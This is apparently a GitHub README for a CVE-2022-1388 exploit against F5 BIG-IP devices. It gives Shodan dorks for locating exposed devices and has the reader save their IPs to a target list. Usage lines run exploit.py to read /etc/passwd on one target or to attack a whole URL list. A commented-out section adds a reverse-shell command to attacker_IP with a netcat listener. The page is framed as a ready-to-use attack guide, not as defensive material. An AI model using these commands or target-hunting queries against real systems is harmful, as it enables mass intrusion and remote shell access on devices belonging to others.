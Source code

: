 # CVE-2022-1388
![](https://img.shields.io/static/v1?label=Product&message=F5%20Big%20IP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=all%2012.1.x%20and%2011.6.x%2016.1.x,%20prior%20to%2016.1.2.2,%2015.1.x,%20prior%20to%2015.1.5.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
```
http.favicon.hash:-335242539
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the **_list_ip_** file.

Usage
---
- Check:
```
chmod +x scanner.sh; bash scanner.sh
```
- RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://target_IP -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
- Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://target_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
-->
